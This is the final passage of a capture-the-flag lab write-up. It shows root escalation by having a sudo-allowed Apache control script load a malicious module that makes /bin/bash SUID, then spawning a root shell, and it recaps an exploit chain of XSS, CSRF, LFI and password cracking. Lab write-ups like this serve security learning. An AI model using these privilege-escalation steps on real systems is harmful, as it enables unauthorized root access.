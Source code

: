 ```bash
echo "LoadModule evil_module /home/mark/confs/evil.so" > /home/mark/confs/exploit.conf
```

Compile:

```bash
gcc -shared -fPIC -o /home/mark/confs/evil.so /home/mark/evil.c
```

Run with sudo:

```bash
sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/exploit.conf
```

Now `/bin/bash` has SUID. Pop root:

```bash
 ls -al /bin/bash
 bash -p
```

👑 We are Root.

```bash
cat /root/root.txt
```

## Root Flag Acquired....

# 🎉 Epilogue – Graduation Day

We started as a freshman with default creds.  
We gossiped our way into Gitea, submitted evil homework, hijacked lecturers, fooled admins, cracked passwords, rewrote utilities, and finally **ruled Guardian University** as Root Principal.

**Key Exploits Recap:**

* Default creds → Student portal
    
* ffuf clusterbomb → Gitea creds
    
* PhpSpreadsheet XSS → Lecturer session
    
* Notice XSS → Admin session
    
* CSRF → permanent Admin account
    
* LFI filter chains → www-data shell
    
* MySQL loot + cracking → Jamil creds
    
* Writable status.py abuse → Mark shell
    
* Evil Apache module → Root
    

📚 Lesson: Universities may teach security, but they rarely practice it.  
Mission accomplished, hacker. 🕶️
